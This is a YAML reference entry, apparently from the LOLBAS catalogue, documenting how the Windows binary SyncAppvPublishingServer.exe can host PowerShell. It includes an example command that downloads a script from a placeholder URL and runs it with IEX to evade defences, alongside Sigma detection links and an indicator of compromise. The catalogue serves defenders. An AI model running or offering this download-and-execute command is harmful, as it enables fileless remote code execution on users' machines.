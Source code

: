 ```yaml
---
Name: SyncAppvPublishingServer.exe
Description: Used by App-v to get App-v server lists
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
    Description: Example command on how inject Powershell code into the process
    Usecase: Use SyncAppvPublishingServer as a Powershell host to execute Powershell code. Evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10 1709, Windows 10 1703, Windows 10 1607
    Tags:
      - Execute: PowerShell
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.exe
  - Path: C:\Windows\SysWOW64\SyncAppvPublishingServer.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/powershell/powershell_script/posh_ps_syncappvpublishingserver_exe.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/powershell/powershell_module/posh_pm_syncappvpublishingserver_exe.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_syncappvpublishingserver_execute_psh.yml
  - IOC: SyncAppvPublishingServer.exe should never be in use unless App-V is deployed
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
Acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
---
```

